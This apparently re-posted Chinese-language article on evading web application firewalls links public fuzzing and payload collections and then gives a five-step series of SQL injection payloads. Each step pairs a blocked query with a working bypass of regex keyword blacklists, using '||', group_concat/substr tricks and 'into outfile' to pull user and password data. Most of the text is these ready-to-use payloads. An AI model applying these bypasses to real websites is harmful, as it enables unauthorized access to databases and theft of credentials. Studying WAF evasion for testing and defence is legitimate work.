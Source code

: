 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/D5hPQMYPGKC8AO0yQj5JvQ)

### **0X00    Fuzz / 爆破**  

**fuzz 字典**

**1.Seclists/Fuzzing**

https://github.com/danielmiessler/SecLists/tree/master/Fuzzing

**2.Fuzz-DB/Attack**

https://github.com/fuzzdb-project/fuzzdb/tree/master/attack

**3.Other Payloads 可能会被 ban ip，小心为妙。**

https://github.com/foospidy/payloads

### **0X01    正则绕过**

多少 waf 使用正则匹配。

#### 黑名单检测 / bypass

**Case**: SQL 注入

##### • Step 1:

```
过滤关键词: and, or, union可能正则: preg_match('/(and|or|union)/i', $id)被拦截的语句: union select user, password from usersbypass语句: 1 || (select user from users where user_id = 1) = 'admin'
```

• Step 2:

```
过滤关键词: and, or, union, where被拦截的语句: 1 || (select user from users where user_id = 1) = 'admin'bypass语句: 1 || (select user from users limit 1) = 'admin'
```

• Step 3:

```
过滤关键词: and, or, union, where, limit被拦截的语句: 1 || (select user from users limit 1) = 'admin'bypass语句: 1 || (select user from users group by user_id having user_id = 1) = 'admin'
```

• Step 4:

```
过滤关键词: and, or, union, where, limit, group by被拦截的语句: 1 || (select user from users group by user_id having user_id = 1) = 'admin'bypass语句: 1 || (select substr(group_concat(user_id),1,1) user from users ) = 1
```

• Step 5:  

```
过滤关键词: and, or, union, where, limit, group by, select被拦截的语句: 1 || (select substr(gruop_concat(user_id),1,1) user from users) = 1bypass语句: 1 || 1 = 1 into outfile 'result.txt'bypass语句: 1 || substr(user,1,1) = 'a'
```
